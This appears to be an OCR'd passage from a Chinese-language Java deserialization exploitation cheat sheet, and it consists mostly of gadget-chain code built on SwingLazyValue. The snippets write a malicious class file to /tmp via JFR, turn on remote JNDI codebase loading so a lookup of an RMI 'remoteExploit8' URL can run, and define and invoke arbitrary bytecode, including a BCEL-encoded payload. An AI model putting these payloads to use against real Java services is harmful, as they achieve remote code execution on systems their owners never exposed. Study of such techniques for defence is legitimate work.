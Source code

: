 写 class

```bash
byte[] bytes = Files.readAllBytes(new File("evil.class").toPath());
            SwingLazyValue swingLazyValue= new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"jfr.save.generated.asm",(Object)"true"});
       SwingLazyValue swingLazyValue = new SwingLazyValue("jdk.jfr.internal.Utils","writeGeneratedASM",new Object[]{(Object)"/tmp/evil/",bytes});

打三次。开启 jfr.save.generated.asm，写 class，在加载。
```

#### 二、高版本开启 jndi 出网，在利用。

```bash
//        三、利用 RMIConnector/JdbcRowSetImpl/javax.naming.InitialContext 打 jndi，高版本先打下面配置，开启出网。(利用 java.lang.System.setProperty 开启配置)。
        Object useCodebaseOnly = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"java.rmi.server.useCodebaseOnly",(Object)"false"});
        Object rmi = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"com.sun.jndi.rmi.object.trustURLCodebase",(Object)"true"});
/       Object ldap = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"com.sun.jndi.ldap.object.trustURLCodebase",(Object)"true"});
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put("a", new SwingLazyValue("javax.naming.InitialContext", "doLookup", new Object[]{"rmi://127.0.0.1:1099/remoteExploit8"}));
```

还可以高版本打 tomcat 的 el 表达式

#### 三、类加载

```bash
Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
        Class<?> JVM = Class.forName("sun.tracing.dtrace.JVM");
        Method defineClass = JVM.getDeclaredMethod("defineClass", ClassLoader.class, String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        Constructor<?> declaredConstructor = JVM.getDeclaredConstructor();
        declaredConstructor.setAccessible(true);
        Object jvm = declaredConstructor.newInstance();
        Object[] ags = new Object[]{invoke, new Object(), new Object[]{ defineClass,jvm, new Object[]{jvm.getClass().getClassLoader(),evil,bcode,0,bcode.length}}};

        SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", ags);
//          第二次直接调用加载的方法
                SwingLazyValue swingLazyValue1 = new SwingLazyValue(evil, null, new Object[0]);
打两次，第一次加载，第二次调用
```

还有一些 becl 什么都是同理

```bash
//        ##加载 becl，第一次加载字节码，第二次调用
        JavaClass javaClass = Repository.lookupClass(calc.class);
        String payload = "$$BCEL$$"+ Utility.encode(javaClass.getBytes(), true);
        Method _main = JavaWrapper.class.getMethod("_main", String[].class);
        Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
        Object[] ags = new Object[]{invoke, new Object(), new Object[]{ _main,new JavaWrapper(),new Object[]{new String[]{payload}}}};

        SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil","invoke",ags);
//        SwingLazyValue swingLazyValue = new SwingLazyValue("_main()",null,null);
```
